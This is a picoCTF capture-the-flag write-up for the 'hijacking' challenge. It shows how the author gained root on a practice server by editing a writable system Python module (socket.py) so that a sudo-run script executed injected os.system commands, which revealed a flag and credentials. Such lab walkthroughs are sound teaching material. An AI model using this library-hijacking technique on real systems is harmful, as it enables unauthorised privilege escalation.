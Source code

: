 ### [hijacking](https://play.picoctf.org/practice/challenge/352)

This one was tough and took me a lot of attempts :sob:

We are given access to a server that we are to connect using `ssh`. In the server, when we use `ls` command, we don't get any output. So lets use the `--all` and `--long` parameters along with the command.

    ls -al

The output is

    total 16
    drwxr-xr-x 1 picoctf picoctf   20 Feb 24 16:05 .
    drwxr-xr-x 1 root    root      21 Aug  4  2023 ..
    -rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
    -rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
    drwx------ 2 picoctf picoctf   34 Feb 24 16:05 .cache
    -rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
    -rw-r--r-- 1 root    root     375 Mar 16  2023 .server.py

We are particularly interested in `.server.py`. So lets cat it.

    cat .server.py

The output is

    import base64
    import os
    import socket
    ip = 'picoctf.org'
    response = os.system("ping -c 1 " + ip)
    #saving ping details to a variable
    host_info = socket.gethostbyaddr(ip)
    #getting IP from a domaine
    host_info_to_str = str(host_info[2])
    host_info = base64.b64encode(host_info_to_str.encode('ascii'))
    print("Hello, this is a part of information gathering",'Host: ', host_info)

When we run this file, we don't get any interesting output. As the hint of the challenge says, we need to find a way to access the administrator commands. We can do that by using the `os` module of python. But we can access it only from python's modules. So let's edit them. But first we gotta find where they are. We can do so by giving the following command.

    find / -name socket.py

We will eventually find the file.

    /usr/lib/python3.8/socket.py

We can edit this file and access the administrator commands. To do so, add the following line in `socket.py` code, on top.

    import os

    os.system('ls -al /challenge')

Now run the `.server.py` file with `sudo`.

    sudo python3 .server.py

We will get the following output.

    total 4
    d--------- 1 root root   6 Aug  4  2023 .
    drwxr-xr-x 1 root root  51 Feb 24 16:05 ..
    -rw-r--r-- 1 root root 103 Aug  4  2023 metadata.json
    sh: 1: ping: not found
    Traceback (most recent call last):
    File "/home/picoctf/.server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip)
    socket.gaierror: [Errno -5] No address associated with hostname

Nice, now we know there's a file named `metadata.json` in that folder. Lets cat it by adding another line in `socket.py`

    os.system('cat challenge/metadata.json')

The output is

    total 4
    d--------- 1 root root   6 Aug  4  2023 .
    drwxr-xr-x 1 root root  51 Feb 24 16:05 ..
    -rw-r--r-- 1 root root 103 Aug  4  2023 metadata.json
    {"flag": "picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}", "username": "picoctf", "password": "jyQXGXxIEP"}sh: 1: ping: not found
    Traceback (most recent call last):
    File "/home/picoctf/.server.py", line 7, in <module>
        host_info = socket.gethostbyaddr(ip)
    socket.gaierror: [Errno -5] No address associated with hostname

Voila, the flag!

Flag: `picoCTF{pYth0nn_libraryH!j@CK!n9_566dbbb7}`
